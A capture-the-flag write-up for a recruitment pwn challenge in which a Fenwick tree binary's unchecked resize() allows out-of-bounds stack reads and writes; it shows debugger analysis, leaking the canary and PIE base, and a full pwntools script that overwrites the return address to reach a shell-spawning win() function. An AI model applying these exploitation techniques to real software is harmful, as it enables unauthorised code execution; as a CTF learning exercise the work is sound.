# w1recruitment 2026 - is that a ppc char

## challenge overview

author: ks2n, suyz
"A Fenwick tree service where index arithmetic matters more than it should."



the challenge provides an executable `chall`, along with the docker image (no extra libc attached)

## basic analysis

the binary is a program which has a basic implementation for a Fenwick Tree.

### revisitting

Fenwick Tree is a data structure that allows quick query (on update/calculate sum from the start of the array to input index `i`).

We use Fenwick Tree instead of Prefix Sum because of it's quicker to update changes to values on all array, that we don't need to recompute the whole array's value upon every value update.

### variables

here we can see `buffer[66]` set as `[rbp - 0x210]`



### functionalities

the whole program is wrapped inside a while loop, with 4 options for (3) different functions, and an exit option.

Here the implementation of Fenwick Tree gives us 3 functions:
- `update(i, delta)` - which will update value at index `i` with `delta` 
- `query(i)` - compute the sum from `arr[0]` to `arr[i]`
- `resize(n)` - resize the tree to `n` elements

#### update

This function will update the new values on `arr[i]` with the difference `delta` input. Here we can see the check is only against `size`, which we are able to change its value



### query

This function will gives us the total of all elements from `arr[0]` to `arr[i]`, with Fenwick Tree binary jump. 

From this, we can deduct the value for our needed sum from `l -> r` by computing `sum[0 -> r] - sum[0 -> (l - 1)]` [proof](https://cp-algorithms.com/data_structures/fenwick.html)



### resize

This function contains the crucial bug. We can update the value of `size` without being check for upperbounds. 

And since both `update()` and `query()` only have their checks against `size`, this allow us to have out-of-bound read and write.




### win()

The program contains a small snippet which gives us the shell. Essentially making this challenge a ret2win.



combine with oob read and write we had at start, we can try overwrite `rip` or the `return address` to `win()`

## dynamic analysis and verifying

The binary was stripped and are protected with PIE, so we will need to leak some extra stuff to calculate the offset needed for ret2win.

Tho the elf was also protected with canaries, `update()` allows us to write with the exact offset starts from `buffer[]`, so we don't need to leak the canary, but we can, so we will do it, for fun.

Now we need to find out the buffer layout, some targets we need to leak and verify them

### finding main

the binary was stripped, so we will have to find `main()` in `pwndbg` manually.

luckily, a few `ni` steps and we will find the disassembled representing what we can see in `ida`



`pwndbg` didn't recognize it right away, but here in this session, `0x555555555221` is the address of `main()`

from here, we can set some breakpoints to help us analyze the program.

### finding the buffer layout

the buffer will be init at the start of the program:



the program also happens to do `memset(buffer, 0, 0x208u)` throughout the whole buffer. which will help us to spot the `buffer[]` easier in the stack layout. also, since the whole array is set with `0`, we can deduct the individual values from the start pretty fast, without having to reset things first.


`ida` gives us some info on the address of `buffer[]`, that it is `0x210` bytes from `rbp`, so we will start inspecting the memory from that offset of `rbp`



we can quickly spot the canary from the stack. 

upon inspecting further, we can see that:



the `buffer[]` was initialized with 65 `QWORD` elements, so from the offset, we can see:

```bash

buffer[65] - [rbp - 0x8]  -> canary (we can spot the canary with the \x00 at the end)
buffer[66] - [rbp]        -> rbp
buffer[67] - [rbp + 0x8]  -> return address (libc address area)
buffer[68] - [rbp + 0x10] -> 
buffer[69] - [rbp + 0x18] -> 

```

#### verify [67] - return address

```bash

pwndbg> x/i *(long long*)($rbp+0x8)
   0x7ffff7c2a28b <__libc_start_main_impl+139>:
    mov    r15,QWORD PTR [rip+0x1d9cf6]        # 0x7ffff7e03f88

```

which is an address in libc space -> the return address


#### analysing [68] and [69]



another thing we need to care about is the Fenwick bit traversal.


here is a helper that can show us the steps that Fenwick Tree implementation computes the sum:

```python

def lowbit(x):
    return x & -x

def path(x):
    out = []
    while x > 0:
        out.append(x)
        x -= lowbit(x)
    return out

for x in range(60, 75):
    print(x, path(x))

```

output:
```
[...]
63 [63, 62, 60, 56, 48, 32]
64 [64]
65 [65, 64]
66 [66, 64]
67 [67, 66, 64]
68 [68, 64]
69 [69, 68, 64]
[...]
```

the program had `memset()` the whole buffer (from `[0]` -> `[64]`) to `0`, which makes every calculation in the next bits easy, since everything is the original value itself (when added with 0)

- `[65]` added itself with `[64] = 0`
- `[66]` added itself with `[64] = 0`
- `[68]` added itself with `[64] = 0`

all of these values dont need further compute to find its original value.

what we need is `[69]`, which has the value inside the program space, so from this we can leak PIE, 

- `[67]` added itself with `[66]` -> saved RIP + saved RBP
- `[69]` added itself with `[68]` -> `buffer[69]` + stack_addr

now thats all we need to defeat PIE

## script

```python
#!/usr/bin/env python3

from pwn import *
import os
import sys

# ============================================================
# CONFIG
# ============================================================

exe = context.binary = ELF(
    args.FILE or './chall',
    checksec=False
)

LIBC_PATH = './libc.so.6'

libc = ELF(LIBC_PATH, checksec=False) if os.path.exists(LIBC_PATH) else None

LD_PATH = './ld-linux-x86-64.so.2'


# ============================================================
# ARGUMENTS
# ============================================================

HOST = args.HOST or 'localhost'
PORT = int(args.PORT or 1337)

GDBSCRIPT = '''
set pagination off
set follow-fork-mode parent
set detach-on-fork on

# Uncomment / modify as needed:
# break main
# break *main+123
# continue
'''


# ============================================================
# CONTEXT
# ============================================================

context.log_level = args.LOG or 'info'

# context.arch = 'amd64'
# context.arch = 'i386'
# context.arch = 'aarch64'

context.terminal = ['tmux', 'splitw', '-h']

# context.terminal = ['tmux', 'splitw', '-v']

# ============================================================
# START
# ============================================================

def start():
    if args.REMOTE:
        return remote(HOST, PORT)

    if args.GDB:
        return gdb.debug(
            [exe.path],
            gdbscript=GDBSCRIPT
        )

    return process([exe.path])


# ============================================================
# LOCAL PROCESS WITH CUSTOM LIBC / LD
# ============================================================

def start_with_libc():

    env = {
        'LD_PRELOAD': libc.path
    }

    if args.GDB:
        return gdb.debug(
            [exe.path],
            gdbscript=GDBSCRIPT,
            env=env
        )

    return process(
        [exe.path],
        env=env
    )


# ============================================================
# HELPERS
# ============================================================

sc = asm(shellcraft.sh())

def leak(name, value):
    log.success(f'{name} = {value:#x}')
    return value


def pause(msg='Paused'):
    log.info(msg)
    pwnlib.util.misc.pause()


def update(idx, delta):
    io.recvuntil(b'>')
    io.sendline(b'1')

    io.recvuntil(b':')
    io.sendline(idx + b' ' + delta)

    print(io.recvline())


def query(idx):
    io.recvuntil(b'>')
    io.sendline(b'2')

    io.recvuntil(b':')
    io.sendline(idx)

    io.recvuntil(b'=')
    out = io.recvline()
    return int(out)


def resize(n):
    io.recvuntil(b'>')
    io.sendline(b'3')

    io.recvuntil(b':')
    io.sendline(n)

    log.info(f"Changed to {n}")
    print(io.recvline())

# ============================================================
# EXPLOIT
# ============================================================

io = start()

main_win_offset = 0x1221 - 0x1199

# for i in range(65, 200):
#     resize(200)
#     oob_read(i)

# update(b'1', b'1')
# query(b'20')
resize(b'100')

def lowbit(x):
    return x & -x

def path(x):
    out = []
    while x > 0:
        out.append(x)
        x -= lowbit(x)
    return out

for x in range(60, 75):
    print(x, path(x))


canary     = query(b'65')
rbp        = query(b'66')
ret_addr   = query(b'67')
stack_addr = query(b'68')
PIE_leak   = query(b'69')

log.info(f'canary: {hex(canary)}')
log.info(f'rbp:  {hex(rbp)}')
log.info(f'ret_addr: {hex(ret_addr)}')
log.info(f'st_addr:  {hex(stack_addr)}')
log.info(f'pie:  {hex(PIE_leak)}')

delta = (PIE_leak - ret_addr - 0x88 + 0x27) & 0xFFFFFFFFFFFFFFFF
if delta > 0x7FFFFFFFFFFFFFFF:
    delta -= (1 << 64)

update(b'67', str(delta).encode())


io.interactive()
```



## bonus 

its a no AI challenge and suddenly i forgor all the python data interpreters, so here come the very cursed piece of code which ive used to leak and inspect the leak

